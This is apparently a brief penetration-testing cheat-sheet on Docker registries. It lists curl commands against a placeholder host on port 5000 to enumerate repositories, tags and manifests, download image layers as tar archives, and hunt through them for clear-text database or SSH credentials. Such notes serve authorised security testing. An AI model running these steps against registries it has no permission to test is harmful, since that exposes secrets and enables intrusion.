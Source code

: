 # DOCKER REGISTRY

## Tools: Postman, Insomnia, Browsers, drg.py https://github.com/Syzik/DockerRegistryGrabber

### Default port: 5000 (Not always the case)

#### Docker registries are JSON endpoitns, so the interaction is quite different from a normal website.

####

## REPOSITORY DISCOVERY

### We may find plain text credentials or any other sensitive information of outdated repositories that haven't been taken down yet. So we can just get them via a GET request.

## EXAMPLE:

#### 1) curl http://IP_ADDRESS:5000/v2/_catalog (List repositories)

#### 2) curl http://IP_ADDRESS:5000/v2/REPOSITORY/tags/list (List manifests)

#### 3) curl http://IP_ADDRESS:5000/v2/REPOSITORY/manifests/latest (Pull the manifests for the image)

#### On step 3 you can also check for any clear-text credentials for a database or ssh etc.

#### 4) curl -s http://IP_ADDRESS:5000/v2/REPOSITORY/blobs/sha256:HASH -output ARCHIVE.tar (Pull all layers of the image and save them in the form of .tar file)

#### 5) tar -xvf ARCHIVE.tar ( Decompress the file to see the contents )
